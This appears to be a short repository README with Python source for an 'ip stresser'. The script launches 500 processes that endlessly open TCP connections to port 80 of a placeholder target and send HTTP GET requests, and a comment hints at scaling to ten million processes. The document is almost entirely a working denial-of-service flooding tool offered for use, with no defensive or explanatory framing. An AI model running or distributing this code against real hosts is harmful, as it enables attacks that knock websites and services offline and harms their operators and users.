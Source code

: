 # stresser
its an ip stresser 



C import socket
import time
from multiprocessing import Process

def send_packet():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(("Ip_goes_here", 80))
        sock.send(b"GET / HTTP/1.1\r\nHost: target_ip\r\n\r\n")
        sock.close()
        time.sleep(0.1)

if __name__ == "__main__":
    processes = []
    for _ in range(500):  #10000000
        p = Process(target=send_packet)
        p.start()
        processes.append(p)

    for p in processes:
        p.join()
